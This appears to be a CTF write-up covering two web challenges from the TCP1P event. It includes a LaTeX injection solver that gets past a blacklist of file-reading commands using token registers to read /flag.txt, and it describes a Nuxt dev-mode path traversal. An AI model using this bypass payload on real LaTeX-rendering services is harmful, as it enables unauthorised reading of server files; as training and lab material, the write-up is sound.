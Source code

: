 ### **Latex - Web**
**Challenge Description:**\
`My first LaTeX website for my math teacher. I hope this will become the best gift for him! :)`\
`http://ctf.tcp1p.com:52132`\
`Author: Dimas`

**Analysis:**\
Latex is vulnerable to injection, but there's a blacklist of LaTeX commands like the ones below. Here, you can bypass it using \newtoks, which is used for token register. Then, you simply assign a value to that registered token. I have worked on this Latex problem before on the Hackthebox machine Topology and the UMDCTF 2023 Homework challenge. By the way, I forgot where I got this payload from, and I saved it for future needs. Respect to whoever created this payload before.\
**Main.go - Blacklisted Command:**
``` go
var (
	//go:embed static/*
	static    embed.FS
	blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein",
		"usepackage", "fileline", "verbatiminput", "url", "href", "text", "write",
		"newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics",
		"openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
)
```
**Solver:**
``` text
\documentclass{article}
\RequirePackage{verbatim}
\begin{document}
\newtoks\in
\newtoks\put
\in={in}
\put={put}

\begin{verbatim\the\in\the\put}{/flag.txt}\end{verbatim\the\in\the\put}
\end{document}
```
**Flag:** TCP1P{bypassing_latex_waf_require_some_latex_knowledge}

### **A Simple Website - Web**
**Challenge Description:**\
`It turns out that learning to make websites using NuxtJS is really fun`
`http://ctf.tcp1p.com:45681`
`Author: Daffainfo`

**Analysis:**\
In the Dockerfile, it is known that the framework uses Nuxt with version v3.0.0-rc.12, and it runs in developer mode. While browsing Nuxt dev mode, an exploit was found, as documented in this article: https://huntr.dev/bounties/4849af83-450c-435e-bc0b-71705f5be440/. According to the article, Nuxt versions <= rc12 are vulnerable to path traversal. All that's left is to perform path traversal and read the flag.
``` text
# Clone the Nuxt.js repository and switch to the desired release
RUN git clone https://github.com/nuxt/framework.git /app && \
    cd /app && \
    git checkout v3.0.0-rc.12

# Start the Nuxt.js development server
CMD ["pnpm", "run", "dev", "--host", "0.0.0.0"]
```
**Solver:**\

[Linkedin]: https://www.linkedin.com/in/muhammad-ichwan-banua/
[Medium]: https://banua.medium.com
[Github]: https://github.com/banuaa
[Youtube]: https://www.youtube.com/@muhammad.iwn-banua
[Instagram]: https://www.instagram.com/muhammad.iwn